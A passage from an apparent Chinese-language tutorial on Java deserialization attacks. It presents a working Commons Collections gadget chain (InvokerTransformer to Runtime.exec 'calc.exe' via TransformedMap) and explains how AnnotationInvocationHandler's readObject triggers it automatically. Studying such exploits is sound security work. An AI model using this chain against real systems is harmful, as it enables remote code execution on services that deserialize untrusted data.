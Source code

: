 ```
public class ApacheSerialize2 implements Serializable {
    public static void main(String[] args) throws Exception{
         Transformer[] transformers = new Transformer[]{
                 new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                 new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                 new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
         };
         Transformer transformerChain = new ChainedTransformer(transformers);

         Map map = new HashMap();
         map.put("value", "sijidou");
         Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

         //序列化
         FileOutputStream fileOutputStream = new FileOutputStream("serialize2.txt");
         ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
         objectOutputStream.writeObject(transformedMap);
         objectOutputStream.close();

         //反序列化
         FileInputStream fileInputStream = new FileInputStream("serialize2.txt");
         ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
         Map result = (TransformedMap)objectInputStream.readObject();
         objectInputStream.close();
         System.out.println(result);

         Map.Entry onlyElement = (Map.Entry) result.entrySet().iterator().next();
         onlyElement.setValue("foobar");
```

该情况可以触发，但是现实中往往不一定存在把数据反序列化后，再调用其中TransformedMap的Map.Entry类型的setValue方法

在java中，自带的类中还有一个类叫做`AnnotationInvocationHandler`

该类中重写的readObject方法在被调用时会将其中的map，转成Map.Entry，并执行setValue操作，那么能把`TransformedMap`装入这个`AnnotationInvocationHandler`类，再传过去，就可以不用考虑之后代码是否执行`setValue`就可以直接利用漏洞了

```
 private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
```